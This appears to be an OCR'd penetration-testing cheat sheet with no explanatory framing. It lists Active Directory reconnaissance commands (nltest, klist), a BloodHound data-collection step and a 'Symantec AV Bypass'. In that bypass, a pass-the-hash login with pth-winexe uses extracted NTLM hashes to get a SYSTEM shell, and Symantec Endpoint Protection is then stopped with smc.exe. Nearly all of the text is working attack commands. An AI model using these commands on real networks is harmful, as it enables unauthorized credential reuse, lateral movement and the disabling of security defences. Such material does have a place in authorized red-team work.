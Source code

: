 # get DC for currently authenticated session
nltest /dsgetdc:offense.local

# get domain trusts from cmd shell
nltest /domain_trusts

# get user info
nltest /user:"spotless"

# get DC for currently authenticated session
set l

# get domain name and DC the user authenticated to
klist

# get all logon sessions. Includes NTLM authenticated sessions
klist sessions

# kerberos tickets for the session
klist

# cached krbtgt
klist tgt

# whoami on older Windows systems
set u
BloodHound
powershell-import /path/to/BloodHound.ps1
powershell Get-BloodHoundData | Export-BloodHoundCSV
Symantec AV Bypass
During our latest pentest, we faced shitty AV problem since we couldn't get any meterpreter session with psexec cuz of Symatec AV, So we would like to share our solution for this problem:
First We Need to connect with the local admin as system using pth (local hash extracted with bkhive and samdump2)

$./pth-winexe -U DOMAIN.COM/USERNAME%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //10.0.42.154 cmd --system

Then let's Stop the AV  Service

cd "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc.exe -stop
